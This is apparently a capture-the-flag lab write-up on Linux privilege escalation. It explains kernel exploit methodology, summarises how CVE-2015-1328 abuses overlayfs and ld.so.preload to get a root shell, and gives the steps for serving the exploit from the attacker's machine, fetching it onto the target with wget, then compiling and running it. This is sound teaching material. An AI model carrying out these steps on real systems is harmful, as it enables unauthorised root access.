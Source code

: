 Kernel exploit methodology is simple:
1. Identify teh kernel version
2. Search and find an exploit code for the kernel version of teh target system
3. Run the exploit.

It's often simples to just google for existing exploit code, sometimes automatic scanners can be useful but they can give both false positives and false negatives.

Note that **it is important to understand how the exploit code works BEFORE you launch it**, it could potentially make irreversible changes to the OS or cause other problems. So even if you are in a LAB environment (such as the machines on THM) try to get the habit of checking and understanding the kernel exploits (and all for that matter, but especially the kernel exploits). 

---

**Q: Find and use the appropriate kernel exploit to gain root privileges on the target system**  

Let's start with the "find" part. If you run `uname -a` you get the same kernel as in the previous task, and you can therefore use **CVE-2015-1328**. If you want to understand the code have a look at the CVE-2015-1328 Deep Dive post where I explore it in more detail. 

>**Short summary of CVE-2015-1328**  
 In essence the exploit code creates a malicious lib entry to the `ld.so.preload` file. It is a file containing a list of ELF shared objects to be loaded before any program, so it essentially causes the specified libraries to be preloaded for all programs executed on the system[^1]. By adding a library to ld.so.preload that opens a root shell, the exploit ensures that this library is executed first, granting the attacker a root shell before any other program can run. The ld.so.preload file is only writable as root, this is where the core of the exploit comes in. The exploit abuses a vulnerability in using _user namespaces_ in combination with _overlayfs_ to bypass these restrictions. 

From what you can see, "all" that happens when you run the exploit is that a root shell is loaded before all other programs, which should not cause any harm to the operating system. So let's use it!

>**Reflection**  
From a detection standpoint, it probably won't be too hard for the system administrators to figure out that the system has been compromised since it (hopefully) will be detected by a IDS or HIPS. Also this exploit has a system wide impact and other users can gain root access by running programs that use preloaded libraries. 

Start by downloading the exploit from your source of choice, I downloaded from exploitDB. 

Use for example `python3 -m http.server 8080` on your machine to allow the target machine to retrieve the file. 

On the target host navigate to `/home/matt`. You will see that there is a flag1.txt file here but you don't have permission to see it. Run `wget http://MACHINE_IP:8080/ofs.c` (given that the exploit file is called ofs.c) in this directory. You should now have downloaded the file to the target machine. Compile it using `gcc ofs.c -o ofs` which should give you an executable file called "ofs". Start the exploit by running `./ofs`.  You should now be able to show the content of flag.txt!

---

**Q: What is the content of the flag1.txt file?**
<details><summary>Answer</summary></details>

## Task6: Privilege Escalation: Sudo
The sudo command allows a user to run a program with root privileges, system administrators can regulate who has access to which program using sudo. You can check the current root privileges using the `sudo -l` command.


[^1]: <https://man7.org/linux/man-pages/man8/ld.so.8.html>